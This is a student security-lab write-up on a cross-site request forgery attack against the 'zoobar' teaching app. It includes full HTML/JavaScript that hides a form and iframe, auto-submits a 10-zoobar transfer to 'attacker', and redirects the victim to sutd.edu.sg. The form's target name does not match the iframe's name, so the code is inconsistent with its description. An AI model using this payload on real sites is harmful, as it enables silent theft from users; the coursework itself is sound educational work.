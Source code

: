 Result upon visiting `answer-7.html`:
![](https://i.imgur.com/u2JEnqR.png)

### Exercise 8

As noted in previous exercises, the user will know that the transaction has happened, as the page will redirect automatically back to the original zoobar transaction page. Hence, this exercise will fix that so that it redirects to `sutd.edu.sg` instead. Javascript will be utilised again for this part. 

What was done: 
1. Hide the form and necessarry indicators using CSS `display:none`

We made sure to properly hide all the forms and iframes using the html tag `<style>`, which takes in CSS styles. There, we specified `display: None;`, a common trick front end developers emply to hide html elements from the user


2. Cause the redirect to happen via the `iframe` tag via the form's `target` parameter as in the documentation [here](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/form#attr-target)

We made sure to create a `malicious-iframe` which does the redirecting upon form submission via the `target` keyword, which takes in the element's name. This is done so that the transfer page is loaded on the iframe in the same page, and because it is invisible, a normal user won't realise. We also added a `onLoad` eventListener, as specified in the handout, to do the redirecting once the form is submitted. To do so, we set `window.location` to be `"https://www.sutd.edu.sg/"`.


The full code is as below:
```htmlembedded
<form method="POST" name="transferform" action="http://localhost:8080/zoobar/index.cgi/transfer" style = "display: none;" target="malicious-frame">
    <p>Send <input name="zoobars" type="text" value="10" size=5> zoobars</p>
    <p>to <input name=recipient type=text value="attacker" size=10></p>
    <input type="submit" name="submission" value="Send">
</form>
<iframe id="malicious-iframe" name="malicious-iframe" style="display: none;"></iframe>
<script>
    //Submits the form
    window.onload = function(){
        document.forms[0].submit()
    }
    // Proceeds to redirect to sutd page
    var malIframe = document.getElementById("malicious-iframe")
    malIframe.addEventListener("load", function() {
        window.location = "https://www.sutd.edu.sg/"
    })

</script>
```



When the attack runs on account `sheek3`:
1. Redirected to `sutd.edu.sg`
![](https://i.imgur.com/6Tvjx2b.png)
![](https://i.imgur.com/8lBIDwN.png)
